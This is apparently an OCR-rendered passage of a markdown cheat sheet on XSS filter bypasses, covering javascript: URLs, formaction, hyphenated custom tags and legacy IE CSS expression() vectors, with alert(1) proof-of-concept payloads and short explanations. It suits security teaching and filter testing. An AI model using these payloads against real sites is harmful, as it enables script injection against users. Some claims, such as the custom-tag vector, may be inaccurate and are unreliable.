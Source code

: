 🧠 These often bypass filters that only scan for `onerror` inside `<img>` or `<script>`.

---

### 3️⃣ **Script Pseudo-Protocols**

```html
<a href="javascript:alert(1)">Click here</a>
<iframe src="javascript:alert(1)">
```

#### 🔍 Why It Works:

Browsers interpret `javascript:` URLs as executable code, *especially* in attributes that expect a URL (`href`, `src`, `action`).

#### 🧨 Filter Bypasses:

* Use uncommon tags:

```html
<form id=x /><button form=x formaction="javascript:alert(1)">
```

* Use **HTML5 hyphenated tags** (breaks old regex filters):

```html
<event-source src="javascript:alert(1)">
```

> Why this works: Filters often look for tag names like `<script>`, `<img>`, etc. They **don’t expect hyphenated tags** or protocol abuse in lesser-known attributes.

---

### 4️⃣ **Dynamically Evaluated Styles**

#### Legacy (IE7 and earlier):

```html
<x style="x:expression(alert(1))">
```

#### IE9+ (Compatibility mode or fallback):

```html
<x style="behavior:url(#default#time2)" onbegin="alert(1)">
```

#### 🔍 Why It Works:

Older IE browsers evaluated CSS `expression()` and behaviors as JavaScript.

This was *intended* for dynamic styles like:

```css
width: expression(document.body.offsetWidth * 0.5);
```
